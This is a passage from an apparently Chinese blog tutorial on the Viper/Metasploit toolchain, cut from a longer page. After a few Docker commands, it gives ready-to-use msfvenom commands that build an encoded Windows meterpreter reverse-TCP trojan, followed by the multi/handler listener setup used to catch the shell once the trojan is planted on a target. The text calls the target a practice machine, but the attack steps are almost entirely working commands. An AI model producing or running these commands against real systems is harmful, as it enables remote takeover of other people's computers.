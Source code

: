 ```nginx
docker logs viper-container

# 进入容器命令行
docker exec -it viper-container bash
```



### Windows

#### 1、使用msf生成木马反弹shell

1、生成攻击[木马](https://so.csdn.net/so/search?q=木马&spm=1001.2101.3001.7020)

2、配置监控主机

3、上传木马使得[靶机](https://so.csdn.net/so/search?q=靶机&spm=1001.2101.3001.7020)中招

```nginx
# 生产木马
msfvenom -p windows/meterpreter_reverse_tcp LHOST={监控IP} LPORT={监控端口} -e x86/shikata_ga_nai  -f exe -o  new.exe -i 5
# 列如
msfvenom -p windows/meterpreter_reverse_tcp LHOST=本机ip LPORT=4567 -e x86/shikata_ga_nai  -f exe -o  new.exe -i 5

```

```nginx
# 配置监控机

# 启动msf
msfconsole 

# 载入监控模块
use exploit/multi/handler

# 加载payload（和上一条命令生成的一样）
set payload windows/meterpreter/reverse_tcp

# 配置payload 
show options

# 配置payload监控IP
set  lhost  {监控IP}

# 配置payload监控端口
set lport  {监控端口}

# 执行监控 
run

# 拿shell后进入交互模式，发现乱码
chcp 65001
```
